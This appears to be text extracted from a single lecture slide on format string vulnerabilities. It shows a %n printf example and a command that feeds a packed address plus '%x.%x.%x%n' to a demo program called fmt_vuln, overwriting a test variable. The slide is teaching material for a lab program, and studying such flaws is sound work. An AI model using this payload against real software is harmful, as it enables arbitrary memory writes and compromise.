

59
# 向任意存储地址写入
printf (“the number of bytes written up to this point x%n is being stored in count_one”,&count_one);
$./fmt_vuln `printf “\x70\x95\x04\x08”`%x.%x.%x%n
The right way
%x.%x.%x%n
The wrong way
Bffff5a0.3e8.3e8
Testval @0x08049570 =20 0x00000014